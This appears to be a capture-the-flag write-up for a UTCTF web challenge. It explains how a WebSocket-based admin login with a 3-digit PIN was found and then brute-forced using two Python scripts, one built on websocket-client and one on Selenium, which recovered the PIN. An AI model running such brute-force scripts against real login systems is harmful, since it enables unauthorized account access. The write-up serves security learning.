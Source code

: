 # WebSockets

### 1. Initial reconnaissance:

This is the first appearance of this challenge. There are only 2 functions in the given web app: the homepage and `/internal/login`.

![image](https://user-images.githubusercontent.com/61876488/158421381-c8fe5b3a-f60b-4975-9746-eef8e2557bb4.png)

![image](https://user-images.githubusercontent.com/61876488/158421488-2fb1c34a-f299-4791-b1dd-9de850817ba6.png)

For some reasons, when we click the "Contact us" button in the homepage, there is no "Contact us" function.

![image](https://user-images.githubusercontent.com/61876488/158421939-a7876768-8919-4d29-b13c-014a9ff92a31.png)

I have found the reasons behind when `CTRL + U` and view source. You can see in the HTML comment above the anchor tag.

![image](https://user-images.githubusercontent.com/61876488/158429913-e62fe44b-97cd-444d-9f67-89d1484f24b1.png)

It said: `...for some reason only the 'admin' account can change it`, this means we will try to log in as `admin`. Hence go to `/internal/login` and check it out!

![image](https://user-images.githubusercontent.com/61876488/158433337-494e236a-b82e-4d35-bb8a-b09b8366e22a.png)

It said `...we still have some old 3-digit pins left`, this means beside the username given in the first hint, the PIN we will try to firgue out have only 3 digits. Super easy to brute force!!

### 2. Analysis:

Well, I have to take my words back =))). It is not easy if you brute force as a blind. Because this login page use websockets to send their data from the login form. First of all, to establish the connection, the browser and server perform a WebSocket handshake over HTTP. The browser issues a WebSocket handshake request like the following:

![image](https://user-images.githubusercontent.com/61876488/158437197-4fe1e9f3-dca2-4c6a-94a3-e9087b4c1fdc.png)

After that when checking `WebSockets history` in Burp Suite, we can see some WebSocket messages sent between client and server:

![image](https://user-images.githubusercontent.com/61876488/158438334-72144648-b0f3-4f52-b2ff-43a2a8a38dbf.png)

According the directions of websockets, here is my idea to exploit:

- Create a list of PIN to brute force, from 000 to 999.
- For each PIN in the list, send a series of **websockets message from client to server**: `begin` -> `user admin` -> `pass <put the PIN here>`.
- If `bad pass` does not appear in the **websockets message from server to client**, maybe we will log in successfully and the PIN just sent is the right one.

### 3. Exploit:

This is my exploit code, using [websocket-client](https://pypi.org/project/websocket-client/) module in Python:

```python
from websocket import create_connection

def brute_list(): # Create a list of PIN to brute force, from 000 to 999.
    brute = [] 
    for i in range(1,9):
        brute.append('00'+str(i))
    for i in range(10,99):
        brute.append('0'+str(i))
    for i in range(100,1000):
        brute.append(str(i))
    return brute

def solve():
    brute = brute_list()
    print('Try to connect!')
    for i in brute:    # For each PIN in the list, send a series of websockets message from client to server: begin -> user admin -> pass <put the PIN here>.
        ws = create_connection("ws://web1.utctf.live:8651/internal/ws") 
        ws.send("begin")
        ws.send("user admin")
        print('Pass: '+str(i))
        ws.send("pass {}".format(i))
        if 'badpass' not in ws.recv():
            print(ws.recv())
        ws.close()

if __name__=="__main__":
    solve()
```

After a while since we run this code, there is a PIN sent and then returned to us a session token. It is `907` and this is the right PIN.

![image](https://user-images.githubusercontent.com/61876488/158443448-2453fddf-07d1-4c55-a352-6e76c9a3c19e.png)

Login with the PIN `907` and get the flag:

![image](https://user-images.githubusercontent.com/61876488/158443658-328a8eaa-6c25-4fc7-9184-bcdaeebe8dec.png)

There is am another amazing way to exploit from my teammate [Gourav Suram](https://github.com/heapbytes). He used [selenium](https://selenium-python.readthedocs.io/):

```python
from selenium.webdriver.common.keys import Keys
from selenium import *
from pprint import pprint


driver=webdriver.Chrome('./Downloads/chromedriver')
driver.maximize_window()
driver.get('http://web1.utctf.live:8651/internal/login')

for i in range(100,999):

    try:
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[1]').clear()
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[1]').send_keys("admin")
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[2]').clear()
        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[2]').send_keys(str(i))

        driver.find_element_by_xpath('/html/body/div[1]/div/form/input[3]').click()
        m=driver.find_element_by_xpath('/html/body/div[1]/div/span')

        if m.text!='Incorrect PIN':
            print(m)
    except:
        break
```        
     

